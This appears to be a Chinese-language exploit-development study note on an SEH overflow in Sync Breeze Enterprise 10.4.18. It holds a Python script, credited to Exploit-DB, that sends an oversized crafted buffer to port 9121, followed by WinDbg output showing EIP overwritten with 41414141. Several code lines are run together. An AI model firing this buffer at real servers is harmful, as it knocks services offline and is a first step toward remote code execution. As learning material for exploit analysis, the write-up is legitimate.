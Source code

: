 **- step1. EXCEPTION_DISPOSITION HANDLE，将异常处理中使用的结构体放入栈。

crash the application

 syncbreezeent_setup_v10.4.18.exe

```python
#!/usr/bin/python import socket  
import sys  
from struct import pack

try:  
  server = sys.argv[1] port = 9121  
  size = 1000

  inputBuffer = b"\x41" * size
  header = b"\x75\x19\xba\xab"  
  header += b"\x03\x00\x00\x00"  
  header += b"\x00\x40\x00\x00"  
  header += pack('<I', len(inputBuffer)) header += pack('<I', len(inputBuffer))
  header += pack('<I', inputBuffer[-1])
  buf = header + inputBuffer

  print("Sending evil buffer...")  
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) s.connect((server, port))
  s.send(buf)
  s.close()
  print("Done!")

except socket.error:
	print("Could not connect")

```
 
(Exploit-DB - Sync Breeze Enterprise 10.4.18 - Denial of-Service), https://www.exploit-db.com/exploits/44481


发现eax+24h 发生了报错
与上一章节不同的是，EIP 没有被改写
```C++
0:008> r  
eax=41414141 ebx=0192fa1c ecx=0192ff18 edx=0192f9d4 esi=0192ff18 edi=0192fb20 eip=00882a9d esp=0192f9a8 ebp=0192fec8 iopl=0 nv up ei pl nz na pe nc cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00010206 libpal!SCA_ConfigObj::Deserialize+0x1d:  
00882a9d ff5024 call dword ptr [eax+24h] ds:0023:41414165=????????
```

当我们继续让程序执行的时候
我们发现eip被改写为41414141
```C++
0:008> g  
(17f8.1984): Access violation - code c0000005 (first chance)  
First chance exceptions are reported before any exception handling.  
This exception may be expected and handled.  
eax=00000000 ebx=00000000 ecx=41414141 edx=770a3b20 esi=00000000 edi=00000000 eip=41414141 esp=0192f438 ebp=0192f458 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00010246
41414141 ?? ???
```
